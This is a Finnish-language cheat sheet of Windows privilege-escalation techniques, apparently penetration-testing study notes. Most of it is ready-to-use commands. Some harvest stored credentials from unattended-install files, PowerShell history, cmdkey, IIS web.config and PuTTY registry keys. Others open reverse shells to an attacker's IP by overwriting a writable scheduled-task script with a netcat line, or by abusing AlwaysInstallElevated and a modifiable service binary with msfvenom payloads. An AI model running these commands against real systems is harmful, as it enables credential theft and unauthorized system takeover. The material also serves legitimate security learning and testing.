 ## Privilege Escalation: Windows ##

Windowsissa tavalliset käyttäjät kuuluvat Users -käyttäjäryhmään, administraattorit Administrators -käyttäjäryhmään.

Erityiskäyttäjätunnukset:

SYSTEM / LocalSystem: Käyttöjärjestelmän käyttämä tunnus käyttöjärjestelmän sisäisiin toimintoihin. Adminejakin korkeammat oikeudet.

Local Service: Oletuskäyttäjä "minimioikeuksilla" Windowsin palvelujen ajamiseen, anonyymit yhteydet verkon yli.

Network Service: Sama kuin yllä, mutta käyttää tietokoneen tunnuksia autentikoitumiseen verkon yli.

**Selkokielisten tunnusten etsimispaikkoja**

WDS:llä asennetut "Unattended Windows Installations" saattavat jättää admin-tunnuksia näihin sijainteihin:
```bash
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
Powershell-historia (cmd.exe ajettuna):
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Tallennetut käyttäjätunnukset:
```cmd
cmdkey /list
```
Jos löytyy kokeilemisen arvoisia, niin:
```cmd
runas /savecred /user:USERNAME cmd.exe
```
IIS konfiguraatioon tallennetut tunnukset:
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
PuTTY:n tallentamat Proxy-tunnukset:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
**Ajastetut tehtävät**

Listaa ajastetut tehtävät:
```cmd
schtasks
```
Lisätietoja yksittäisestä tehtävästä:
```cmd
schtasks /query /tn *TaskName* /fo list /v
```
Task to run kertoo ajettavan tiedoston (esim. .bat scripti), Task as user kertoo käyttäjätunnuksen, jolla tehtävä ajetaan. Alla olevalla komennolla tarkistetaan ko. tiedoston kirjoitusoikeudet, ja jos nykyisellä käyttäjällä voidaan kirjoittaa, niin voidaan muokata scriptiä, ja se pyörähtää Task as user-tunnuksella. 
```cmd
icacls C:\polku\tiedostoon\scripti.bat
```
Jos esim. \USERS -käyttäjillä kirjoitusoikeudet, voidaan tehdä reverse shell netcatilla:
```cmd
echo c:\polku\netcatiin\nc64.exe -e cmd.exe *Hyökkääjän IP* 9999 > C:\polku\scriptiin\scripti.bat
```
Netcat -kuuntelumoodiin omalle koneelle porttiin 9999:
```cmd
nc -lvp 9999
```
Seuraavan ajastuksen yhteydessä aukeaa shell "Task as user" -tunnuksella.

**AllwaysInstallElevated**

Windowsin asennustiedostot .msi käynnistyvät oletuksena käyttäjän oikeuksilla, mutta voidaan konfiguroida käynnistymään myös korkeammilla oikeuksilla. Jos **molemmat** alla olevat rekisteriarvot saadaan päälle onnistuneesti:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
niin voidaan luoda msfvenomilla .msi payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f msi -o maltsu.msi
```
ja vastaavilla asetuksilla Metasploit Handler vastaanottamaan yhteys. Kun maltsu.msi on siirretty kohteelle, ajetaan ao. komento ja reverse shell pitäisi aueta:
```cmd
msiexec /quiet /qn /i C:\polku\kohteeseen\maltsu.msi
```
**Servicet**

Servicet pyörivät Service Control Managerin (SCM) kautta. Jokaisella servicellä on vastaava ohjelma, joka ajetaan. Servicestä tietoa esim.
```cmd
sc qc apphostsvc
```
BINARY_PATH_NAME = ohjelman polku, SERVICE_START_NAME = tunnus, jolla service käynnistetään.

Tarkistetaan ohjelman oikeudet icaclsilla:
```cmd
icacls C:\polku\ohjelmaan\service.exe
```
Jos käyttäjällä muokkausoikeudet (M)/(F), voidaan uudelleenkirjoittaa ko. ohjelma ja se ajetaan servicen ajavalla käyttäjätunnuksella. msfvenom payload esim:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f exe-service -o service.exe
```
Siirretään päälle, ja annetaan oikeudet:
```cmd
icacls service.exe /grant Everyone:F
```
Jonka jälkeen netcat kuuntelija --> reverse shell, kun service käynnistyy uudelleen.
